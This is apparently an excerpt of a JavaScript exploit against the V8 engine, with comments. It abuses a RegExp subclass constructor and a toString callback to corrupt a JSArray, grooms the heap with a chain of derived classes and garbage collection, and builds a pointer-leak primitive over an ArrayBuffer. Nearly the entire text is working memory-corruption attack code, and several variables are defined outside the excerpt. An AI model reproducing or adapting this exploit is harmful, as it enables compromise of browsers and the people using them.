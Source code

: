 ```


    new RegExp({ toString: function () { return 'a' } });
    cb(true);


    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );


            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }


    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }


        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }


        return DerivedN;
    })`);


    gc();




    new (derived_n(tDerivedNDepth))();


    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }


```
